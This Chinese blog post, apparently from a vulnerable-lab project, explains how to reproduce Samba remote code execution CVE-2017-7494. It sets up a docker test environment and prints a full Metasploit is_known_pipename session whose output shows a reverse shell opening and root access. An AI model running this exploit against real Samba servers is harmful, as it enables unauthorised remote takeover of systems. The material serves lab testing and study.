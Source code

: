 ```yaml
---
layout: post
title: "Samba远程代码执行漏洞(CVE-2017-7494)"
date: 2017-05-25 13:29:51 +0800
image: '/assets/img/'
description: '漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。'
main-class: 'hole'
color: '#B31917'
tags:
- Samba
- RCE
categories:
- Samba
twitter_text: '2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。'
introduction: '2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。'
---
```



### 漏洞信息

2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。

* [Remote code execution from a writable share.](https://www.samba.org/samba/security/CVE-2017-7494.html)

### 镜像信息

类型 | 值
:-:|:-:
samba 端口 | `445`

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_samba_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 445:445 -p 139:139 -p 138:138 -p 137:137 medicean/vulapps:s_samba_1
 ```
 > `-p 445:445` 前面的 445 代表物理机的端口
 >

### 利用步骤

假定目标 IP 是： 192.168.35.197

{% highlight ruby linenos %}
msf > use exploit/linux/samba/is_known_pipename
msf exploit(is_known_pipename) > set RHOST 192.168.35.197
RHOST => 192.168.35.197
msf exploit(is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOST           192.168.35.197   yes       The target address
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_BASE                   no        The remote filesystem path correlating with the SMB share name
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   2   Linux x86_64


msf exploit(is_known_pipename) > run

[*] Started reverse TCP handler on 192.168.35.197:4444
[*] 192.168.35.197:445 - Using location \\192.168.35.197\share\ for the path
[*] 192.168.35.197:445 - Payload is stored in //192.168.35.197/share/ as dDUJiiuf.so
[*] 192.168.35.197:445 - Trying location /volume1/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /volume1/share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /volume1/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /mnt/media/SHARE/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /mnt/media/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/SHARE/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /tmp/dDUJiiuf.so...
[*] Command shell session 1 opened (192.168.35.197:4444 -> 192.168.35.197:58089) at 2017-05-25 13:26:19 +0800

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
{% endhighlight %}

如果 smb.conf 配置了 `guest account = root` 这一项, 则显示如下：

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

### 推荐阅读

* [First crack at Samba CVE-2017-7494 #8450](https://github.com/rapid7/metasploit-framework/pull/8450)
* [Samba远程代码执行漏洞(CVE-2017-7494)分析](http://blogs.360.cn/blog/samba%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9Ecve-2017-7494%E5%88%86%E6%9E%90/)
